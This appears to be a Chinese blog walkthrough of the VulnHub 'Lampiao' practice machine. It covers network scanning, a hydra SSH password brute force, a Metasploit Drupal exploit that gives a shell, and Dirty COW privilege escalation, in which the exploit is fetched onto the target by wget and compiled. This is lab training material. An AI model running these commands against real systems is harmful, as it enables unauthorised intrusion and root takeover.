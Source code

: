 ```yaml
---
title: 靶场练习-Lampiao
tags:
  - 网络安全
readmore: true
date: 2023-02-23 13:07:58
updated: 2023-02-23 13:07:58
---
```


访问官网：https://www.vulnhub.com/entry/lampiao-1,249/

页面向下滑找到 Download 下载靶场；下载成功后，启动虚拟机，单击“打开”选项，找到刚刚下载并解压好的靶场文件，等待导入完成；

完成后启动靶机，可以看到只有一个登录窗口，此时靶机已经成功运行。

启动 kali 虚拟机，并同时设置两个机器的网络配置为 NAT 模式；

这样可以使所有的虚拟机共同处在一个独立的网段（和物理机不在同一个网段），方便后续探索靶机 ip 时更快的找到靶机 ip；

<!-- more -->

### 获取 shell

由于靶机无法直接登录，所以我们也无法获取靶机的任何信息，最重要的就是要先访问靶机；

#### nmap 扫描

nmap： nmap（Network Mapper）是一款开源免费的针对大型网络的端口扫描工具，nmap可以检测目标主机是否在线、主机端口开放情况、检测主机运行的服务类型及版本信息、检测操作系统与设备类型等信息。

官方网站：https://nmap.org/

使用 nmap 扫描整个网段，找到靶机的 ip 地址：

```bash
nmap -sS -Pn 192.168.19.0/24
# -sS 半开放扫描，打开一个不完全的 TCP 连接，速度较快且不容易被发现
# -Pn 穿透防火墙进行扫描，有的防火墙禁止 ping 命令，可以使用此选项
# 要扫描的网段，24指的是32位二进制的前24位用 “1” 表示，并变化后面的几位来进行扫描
```

 ![](http://pic.mewhz.com/blog/1-lampiao.png)

发现这个 ip 的 80 端口是开放的，去访问这个网站，发现是一个静态页面；

进一步扫描 ip 开放的所有端口：

```bash
nmap -T4 -p 1-65535 192.168.19.136
# -T4 设置扫描的时间模板为 T4， 可以更快的扫描
# -p 设置扫描的端口范围，1-65535 是所有的端口
```

 ![](http://pic.mewhz.com/blog/2-lampiao.png)

发现开启着 ssh 服务(22端口)，80 端口和 1898 端口，尝试访问 1898端口。

#### 爆破用户名密码 (第一种获取 shell 方法)

访问 1898 端口后，尝试都点击一下，在 url node = 1 中尝试修改为 2 并访问:

```bash
http://192.168.19.136:1898/?q=node/2
```

 ![](http://pic.mewhz.com/blog/3-lampiao.png)

发现一个 m4a 和 png 文件，扫描二维码发现没有有用的信息，听 m4a 文件可以得到用户名为

>tiago

得到了用户名，可以尝试使用 cewl 制作字典来进行爆破:

```bash
cewl http://192.168.19.136:1898/?q=node/1 -w password.txt
# cewl 可以探索网站的内容并生成一个字典文件
# -w 结果写入文件
```

 ![](http://pic.mewhz.com/blog/4-lampiao.png)

使用 hydra 工具：

```bash
hydra -l tiago -P password.txt 192.168.19.136 ssh
# -l: 指定用户名进行爆破
# -P 用于指定密码字典 (大写)
# ssh: 指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
```

成功得到用户名密码：username: **tiago**   password: **Virgulino**

![](http://pic.mewhz.com/blog/5-lampiao.png)

使用 ssh 命令成功登录：

```bash
ssh tiago@192.168.19.136
```

![](http://pic.mewhz.com/blog/6-lampiao.png)

#### 漏洞利用 (第二种获取 shell 方法)

进入网站后，先使用 dirsearch 命令扫描一下目录：

```bash
dirsearch -u 192.168.19.136:1898
```

![](http://pic.mewhz.com/blog/7-lampiao.png)

发现 CHANGELOG.txt 文件，并通过该文件得到了 Drupal 的版本，百度搜索发现该版本存在漏洞，使用 msfconsole 利用漏洞；

msfconsole：集成了很多漏洞的利用的脚本，并且使用起来很简单的网络安全工具

```bash
msfconsole
# 如果启动很慢，可以在 kali 中直接启动 metasploit framework
search Drupal
# 启动后输入该命令搜索 Drupal 相关漏洞
```

![](http://pic.mewhz.com/blog/8-lampiao.png)

找到对应的漏洞

```bash
use 1
# 使用攻击模块 1
set rhosts 192.168.19.136
# 设置目标 ip
set rport 1898
# 设置目标端口
show options
# 查看信息是否正确
run
# 运行攻击模块
```

成功拿到对应的 shell
![](http://pic.mewhz.com/blog/9-lampiao.png)

执行shell获取交互式命令，由于我们获取的shell并不是一个具有完整交互的shell，对于已经安装了python的系统，我们可以使用 python提供的pty模块，只需要一行脚本就可以创建一个原生的终端，命令如下：

```python
shell
# shell 获取目标主机的远程命令行shell，使用exit退出当前的shell
python -c 'import pty;  pty.spawn("/bin/bash")'
# -c 可以在命令行调用 python 代码
# pty 伪终端工具
# pty.spawn 生成一个进程，并将其控制终端连接到当前进程的标准 io。
```

![](http://pic.mewhz.com/blog/10-lampiao.png)

### 提权

获取 shell 后发现是一个低权限的用户，所以我们需要提权。查看 linux 内核版本：

```bash
uname -r
# 用于显示操作系统的信息
# -r 显示操作系统的发行编号
```

![](http://pic.mewhz.com/blog/11-lampiao.png)

发现该版本存在脏牛漏洞，可以使用脏牛(Dirty Cow)漏洞进行提权；

```bash
searchsploit dirty
# searchsploit 是一个用于Exploit-DB的命令行搜索工具
```

ExploitDB是一个面向全世界黑客的漏洞提交平台；https://www.exploit-db.com

![](http://pic.mewhz.com/blog/12-lampiao.png)

使用 40847.cpp 作为提权的代码文件，首先在本机找到该文件

```bash
cd /usr/share/exploitdb/exploits/linux/local/
cp 40847.cpp /tmp
cd /tmp
```

然后将里面内容复制到靶机上，可以直接使用复制粘贴，也可以使用 xftp 或者 kali 使用 python 开启 web 服务，靶机通过 wget 命令进行下载。

```python
python -m http.server 8080
# 开启 8080 端口，kali 使用
wget 192.168.19.130:8080/40847.cpp
# 下载文件，文件保存在本地
```

下载后使用 g++ 进行编译

```bash
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
 # g++ 是C&C++ 的编译器
 # -Wall 允许发出GCC能够提供的所有有用的警告
 # -pedantic 允许发出ANSI/ISO C标准所列出的所有警告
 # -O2 编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
 # -std=c++11 就是用按C++2011标准来编译
 # -pthread 在Linux中要用到多线程时，需要链接pthread库
 # -o dcow gcc生成的目标文件,名字为dcow
 ./dcow 
 # 执行编译后的文件
```

获取到 root 用户密码：dirtyCowFun

```bash
su root
# 切换 root 用户，输入密码后成功登录
```

在 root 目录下成功找到 flag.txt

![](http://pic.mewhz.com/blog/13-lampiao.png)

---

### 参考资料

[VulnHub-Lampiao 靶场渗透测试](https://www.cnblogs.com/l2sec/p/14403481.html)

[黑客工具之hydra详细使用教程](https://zhuanlan.zhihu.com/p/397779150)

[记一次lampiao靶机渗透](https://zhuanlan.zhihu.com/p/349079469)

[【工具使用】--- cewl](https://blog.csdn.net/qq_43168364/article/details/111773051)

[nmap 常用参数](https://blog.csdn.net/tryheart/article/details/108245986)

[msfconsole的使用 ](https://www.cnblogs.com/Junglezt/p/16009926.html)

[Python 3.10.0 官方文档(全)](https://www.bookstack.cn/books/python-3.10.0-zh)

[网络安全nmap扫描端口命令详解linux网络探测](https://www.920vip.net/article/66)
